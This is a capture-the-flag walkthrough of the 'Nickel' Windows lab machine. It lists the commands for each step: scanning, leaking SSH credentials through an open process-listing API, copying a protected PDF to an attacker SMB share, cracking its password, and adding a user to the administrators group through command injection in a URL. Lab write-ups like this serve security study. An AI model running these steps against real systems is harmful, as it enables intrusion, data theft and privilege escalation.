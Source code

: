 # Nickel

## Info

Nickel is an intermediate windows machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
21/tcp    open  ftp           syn-ack ttl 125 FileZilla ftpd
22/tcp    open  ssh           syn-ack ttl 125 OpenSSH for_Windows_8.1 (protocol 2.0)
80/tcp    open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
5040/tcp  open  unknown       syn-ack ttl 125
7680/tcp  open  pando-pub?    syn-ack ttl 125
8089/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
33333/tcp open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```

## HTTP 8089

There is an api endpoint that returns 'cannot get'.

Using a curl post request to list processes.

```
curl 'http://192.168.188.99:33333/list-running-procs' -X POST -H 'Content-Length: 0'
```

ssh credentials in the command line.

```
ariah:Tm93aXNlU2xvb3BUaGVvcnkxMzkK
```

After base64 decode.

```
ariah:NowiseSloopTheory139
```

## Root

There is Infrastructure.pdf file in the C:\ftp directory which is password protected.

Transfer file (kali).

```
impacket-smbserver -smb2support -username soaked -password soaked share $(pwd)
```

Transfer file (target).

```
net use n: \\192.168.45.214\share /user:soaked
cp infrastructure.pdf \\192.168.45.214\share
```

Cracking the password.

```
pdfcrack -f Infrastructure.pdf -w /usr/share/wordlists/rockyou.txt
```

pdf password.

```
ariah4168
```

This shows with the file C:\Windows\System32\ws80.ps1 that the localhost web server executes as nt authority system.

Local port forward.

```
ssh -f -N -L 127.0.0.1:8080:127.0.0.1:80 ariah@192.168.179.99
``` 

Add ariah to admin group.

```
http://127.0.0.1:8080/?net%20localgroup%20administrators%20ariah%20/add
```
